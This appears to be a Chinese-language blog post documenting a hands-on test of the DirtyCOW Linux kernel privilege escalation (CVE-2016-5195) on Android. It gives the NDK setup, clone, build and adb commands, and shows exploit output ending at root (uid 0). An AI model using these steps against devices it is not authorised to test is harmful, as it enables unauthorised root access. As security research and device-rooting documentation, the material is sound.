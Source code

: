 ```yaml
---
title: DirtyCOW(CVE-2016-5195)测试
date: 2016-11-10 01:17:22
tags:
	- android
	- 安全
---
```


# 前言
最近研究人员Phil Oester发现了dirtyCOW脏奶牛漏洞，影响从2007年linux2.6.22至今的所有linux内核。dirtyCOW是本地提权漏洞，具体是利用linux内存子系统在处理写时复制(copy-on-write,COW)时产生了竞争条件,使得低权限用户有机会对只读内存里的内容进行写入操作，达到提权的目的。
众所周知，android系统也是基于linux内核，所以dirtyCOW对android设备同样适用，而且是全系android通用，因为android 1.0 内核版本是2.6.25。
github上已经有人放出了android可用的[PoC](https://github.com/timwr/CVE-2016-5195),而谷歌11月5日发布的安全更新还没有修复这个漏洞，有兴趣测试的可以一下。

<!-- more -->

# 零.编译环境
工欲善其事，必先利其器,想让用c语言编写的dirtyCOW在android平台运行，android-ndk必不可少。
android-ndk可以通过android-studio下载，然后把ndk所在文件夹添加到环境变量
	```
		nano .bashrc
		export NDK_HOME=/home/username/Android/Sdk/ndk-bundle
		export PATH=$PATH:$NDK_HOME
	```
username改成自己的用户名
为了让添加的立即生效
> source .bashrc



# 一.代码下载
> git clone https://github.com/timwr/CVE-2016-5195.git


# 二.编译	
> cd CVE-2016-5195

此时把设备用usb连接电脑，并打开usb调试，确保已经安装adb，如果没有，ubuntu下运行
> sudo apt-get install android-tools-adb

编译
	
> make root

接下来稍等片刻，编译脚本会自动把编译好的文件通过adb发送到设备
最后会看到终端下提示
```
	adb push libs/armeabi/run-as /data/local/tmp/run-as
	[100%] /data/local/tmp/run-as
	adb shell 'chmod 777 /data/local/tmp/run-as'
	adb shell '/data/local/tmp/dirtycow /system/bin/run-as /data/local/tmp/run-as'
	warning: new file size (9464) and file old size (17944) differ

	size 17944


	[*] mmap 0xb51e5000
	[*] exploit (patch)
	[*] currently 0xb51e5000=464c457f
	[*] madvise = 0xb51e5000 17944
	[*] madvise = 0 1048576
	[*] /proc/self/mem 1635778560 1048576
	[*] exploited 0xb51e5000=464c457f
	adb shell /system/bin/run-as
	running as uid 2000
	uid 0
```

运行`run-as`时的uid为0,已经达到提权的目的，测试完毕。

# 总结：
dirtyCOW确实可以达到提权的目的，但是通过这个漏洞只能覆盖掉系统里已有的文件，并不能直接添加文件，也就是说单纯通过这一个漏洞达到root手机的目的有些困难。xda论坛已经有人通过这个漏洞在已经解锁的设备上刷入了第三方recovery，但是这种方法风险太大，有可能变砖，好在11月安全更新并没有修复dirtyCOW，至少还有一个月时间让各路大神探索其他风险更小的root途径。